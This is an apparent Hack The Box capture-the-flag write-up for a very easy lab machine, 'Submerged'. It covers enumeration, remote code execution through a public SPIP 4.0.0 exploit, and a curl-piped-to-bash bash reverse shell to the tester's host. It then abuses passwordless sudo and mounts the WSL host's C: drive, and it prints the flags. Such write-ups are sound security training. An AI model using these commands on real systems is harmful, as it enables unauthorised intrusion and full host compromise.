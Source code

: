 ![](Submerged.assets/banner.png)



<img src="Submerged.assets/logo.png" style="margin-left: 20px; zoom: 32%;" align=left />    	<font size="10">Submerged</font>

​		27<sup>th</sup> April 2024 / Document No D24.XXX.XXX

​		Prepared By: TheCyberGeek

​		Machine Creator(s): TheCyberGeek

​		Difficulty: <font color="Green">Very Easy</font>

​        Classification: Official

​        

# Enumeration

## Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.33 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.231.33
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-27 18:37 BST
Nmap scan report for submerged.htb (10.129.231.33)
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Submerged Blog
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.39 seconds
```

We see that only port 80 is open using `Nginx` to host a blogging website. We visit the website and are redirected to `http://submerged.htb`. So we add the record to our `/etc/hosts` file.

```bash
echo "10.129.231.33 submerged.htb" | sudo tee -a /etc/hosts
```

Upon visiting the site we are introduced to a personal blog about the apocalypse which includes survival posts and other apocalyptic posts. 

![landing](Submerged.assets/landing.png)

There is a particular post called `The Relocation: Out With The Old and In With The New` which describes after the nuclear devastation that they refactored their website to adapt with the changes, and provide a link to the retired website.

![link to old site](Submerged.assets/link.png)

Clicking the link takes us to `spip.submerged.htb`, which we do not have an entry for in our host file so we add the new virtual host name in. Upon navigating to the site, we see a blank site where the creator has removed all the posts and data from prior to the nuclear devastation. We enumerate the `SPIP` version by sending a basic verbose GET request to the site.

```bash
curl -v http://spip.submerged.htb
*   Trying 10.129.231.33:80...
* Connected to spip.submerged.htb (10.129.231.33) port 80
> GET / HTTP/1.1
> Host: spip.submerged.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 27 Apr 2024 17:54:10 GMT
< Content-Type: text/html; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Vary: Cookie, Accept-Encoding
< Composed-By: SPIP 4.0.0 @ www.spip.net + http://spip.submerged.htb/local/config.txt
< X-Spip-Cache: 86400
< Last-Modified: Sat, 27 Apr 2024 17:54:10 GMT
```

We see the site is using `SPIP 4.0.0`. Searching on Google for `SPIP 4.0.0 exploit` the first results returns [this](https://www.exploit-db.com/exploits/51536) link from `Exploit-DB`. Reading the summary of the exploit shows that the exploit was tested against `SPIP 4.0.0`. We downlaod the code locally and attempt to exploit the target. First we start a Python3 web server.

```bash
sudo python3 -m http.server 80
```

Then we attemtp to make a curl request to ourselves to verify we have remote code execution against the target.

```bash
python3 exploit.py -u http://spip.submerged.htb -c 'curl http://10.10.14.48/testing'
```

Checking our Python3 web server we see that we got a hit.

```bash
python3 -m http.server 80    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.231.33 - - [27/Apr/2024 19:01:12] code 404, message File not found
10.129.231.33 - - [27/Apr/2024 19:01:12] "GET /testing HTTP/1.1" 404 -
```

We create a bash file with a reverse shell and adjust our payload.

```bash
echo -ne '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.48/4444 0>&1' > bash.sh
```

We start a `Netcat` listener to catch the reverse shell.

```bash
nc -lvvp 4444
```

We adjust our command to grab the payload and trigger it at the same time.

```bash
python3 exploit.py -u http://spip.submerged.htb -c 'curl http://10.10.14.48/bash.sh|bash'
```

Checking our shell we have successfully gained a shell on the target and can read the user flag.

```bash
nc -lvvp 4444                            
Listening on 0.0.0.0 4444
Connection received on submerged.htb 49685
bash: cannot set terminal process group (83): Invalid argument
bash: no job control in this shell
matthew@WIN-1EGDT8E0CN3:/var/www/spip$
```

From here we can read the user flag.

```bash
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ cat ~/user.txt
HTB{SpIP_Abu53_4_RC3}
```

## Privilege Escalation

At this stage we upgrade our shell and check the sudo permissions.

```bash
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ script /dev/null -c bash
Script started, file is /dev/null
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ sudo -l
Matching Defaults entries for matthew on WIN-1EGDT8E0CN3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User matthew may run the following commands on WIN-1EGDT8E0CN3:
    (ALL : ALL) NOPASSWD: ALL
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ 
```

We become root by executing `sudo bash`. Enumerating the system shows that there isn't anything else available, but we are using WSL to be in a Ubuntu subsystem. A known issue with subsystems is that we can mount the `C:\` drive to the subsystem and access the host's files. We check to see if the `C:\` drive is already mounted.

```bash
root@WIN-1EGDT8E0CN3:~# ls -la /mnt
total 0
drwxr-xr-x 1 root root 512 Apr 10 11:04 .
drwxr-xr-x 1 root root 512 Apr 10 11:04 ..
drwxrwxrwx 1 root root 512 Apr 10 11:04 c
root@WIN-1EGDT8E0CN3:~# ls -la /mnt/c
total 0
drwxrwxrwx 1 root root 512 Apr 10 11:04 .
drwxr-xr-x 1 root root 512 Apr 10 11:04 ..
root@WIN-1EGDT8E0CN3:~#
```

Searching in Google for `mount c in WSL` shows [this](https://superuser.com/questions/1107618/where-is-the-c-drive-in-the-wsl) link, and in one of the comments it shows us how to mount the host drives into WSL.

```bash
sudo mount -t drvfs C: /mnt/c 
```

Attempting to perform this on the target successfully mounts the host filesystem.

```bash
root@WIN-1EGDT8E0CN3:~# sudo mount -t drvfs C: /mnt/c 
root@WIN-1EGDT8E0CN3:~# ls -la /mnt/c
ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
ls: cannot access '/mnt/c/pagefile.sys': Permission denied
ls: '/mnt/c/System Volume Information': Permission denied
total 0
drwxrwxrwx 1 root root 512 Apr 26 16:38  .
drwxr-xr-x 1 root root 512 Apr 10 11:04  ..
drwxrwxrwx 1 root root 512 Apr 26 16:40  Config.Msi
lrwxrwxrwx 1 root root  12 Apr 29  2020 'Documents and Settings'
drwxrwxrwx 1 root root 512 Oct 10  2020  PerfLogs
drwxrwxrwx 1 root root 512 Apr 26 16:38 'Program Files'
drwxrwxrwx 1 root root 512 Sep 15  2018 'Program Files (x86)'
drwxrwxrwx 1 root root 512 Apr 29  2020  ProgramData
drwxrwxrwx 1 root root 512 Apr 29  2020  Recovery
d--x--x--x 1 root root 512 Apr 29  2020 'System Volume Information'
drwxrwxrwx 1 root root 512 Apr 29  2020  Users
drwxrwxrwx 1 root root 512 Apr 10 11:02  WSL
drwxrwxrwx 1 root root 512 Apr 26 16:39  Windows
-????????? ? ?    ?      ?            ?  pagefile.sys
root@WIN-1EGDT8E0CN3:~# 
```

We have full access to the host.

```bash
root@WIN-1EGDT8E0CN3:~# cd /mnt/c/users/administrator/desktop   
root@WIN-1EGDT8E0CN3:/mnt/c/users/administrator/desktop# ls -la
ls -la
total 0
drwxrwxrwx 1 root root 512 Nov 29  2022 .
drwxrwxrwx 1 root root 512 Apr 10 11:55 ..
-rwxrwxrwx 1 root root 282 Nov 29  2022 desktop.ini
-rwxrwxrwx 1 root root  25 Apr 27 11:38 root.txt
root@WIN-1EGDT8E0CN3:/mnt/c/users/administrator/desktop# cat root.txt
HTB{Pwn1ng_WsL_4_7h3_W1n}
```


